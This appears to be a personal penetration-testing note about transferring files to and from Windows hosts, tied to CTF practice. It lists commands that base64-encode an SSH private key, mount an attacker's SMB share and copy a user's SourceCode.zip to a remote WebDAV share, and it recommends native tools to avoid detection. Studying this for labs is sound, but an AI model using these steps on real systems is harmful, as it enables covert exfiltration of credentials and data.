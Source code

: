 # Windows File Transfer

## Overview

For transferring files to/from Windows machines.

## Key Concepts

To avoid detection, it's recommended to try to use Windows-native tools to transfer files as much as possible.

## Downloading

### Powershell

#### Method 1: Base64 Encoding

> [!warning] While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings. 

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the Windows machine, decode the contents in your clipboard to a file.
![[powershell#^decode-base64-to-file]]

**Step 4:** Confirm the MD5 hash matches
![[powershell#^get-file-md5-hash]]

#### Method 2:  DownloadFile

Download a file to a specified location.
![[powershell#^downloadfile-method]]

#### Method 3:  DownloadString - Fileless

Download and execute a remote file in memory - filelessly!
![[powershell#^downloadstring-method-fileless]]

#### Method 4: Invoke-WebRequest

> [!warning]  `Invoke-WebRequest` is noticeably slower at downloading files than `(New-Object Net.WebClient).DownloadFile`

Download a file to a specified location.
![[powershell#^outfile-invoke-webrequest]]

---
### SMB

#### Method 1: impacket-smbserver

**Step 1:** Create an SMB server on the Linux machine
![[impacket-smbserver#^create-authenticated-smb-server]]

**Step 2:** Mount the SMB server
```powershell
net use n: \\192.168.220.133\share /user:test test
```

**Step 3:** Copy the file from the share to the Windows machine
```powershell
copy n:\<file>
```

---
### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with Python on the Linux machine
![[python#^create-ftp-server]]

**Step 2:** Download the files to the Windows machine
![[powershell#^downloadfile-method]]


## Uploading

### Powershell

#### Method 1: Base64 Encoding + Copying

**Step 1:** Check the MD5 hash of the contents.
![[powershell#^decode-base64-to-file]]

**Step 2:** Encode contents to base64 and copy it to clipboard.
![[powershell#^encode-file-contents-to-base64]]

**Step 3:** On the Linux machine, decode the contents in your clipboard to a file.
```bash
echo "base64 content" | base64 -d > hosts
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

#### Method 2: Base64 Encoding + Uploading

**Step 1:** Encode the file content to Base64 and save it to a variable.
![[powershell#^b64-file-content-variable]]

**Step 2:** Open a netcat listener on the Linux machine.
![[netcat#^open-listener]]

**Step 3:** Send the Base64 encoded file contents to the listener
![[powershell#^send-b64-post]]

### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with write permissions on the Linux machine.
![[python#^write-create-ftp-server]]

**Step 2:** Upload a file from the Windows machine.
![[powershell#^uploadfile-method]]

### HTTP

#### Method 1: uploadserver

Set up a webserver with upload page
![[python#^uploadserver]]

#### Method 2: wsgidav

**Step 1:** Create a WebDav share on the Linux machine
![[python#^wsgidav-create-share]]

**Step 2:** Connect to the share on the Windows machine
```powershell
dir \\192.168.49.128\DavWWWRoot
```

**Step 3:** Upload files from the Windows machine
```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\www\
```





## Practical Examples

Real-world scenarios where I've used this

## Gotchas & Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #windows-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#windows-file-transfer #technique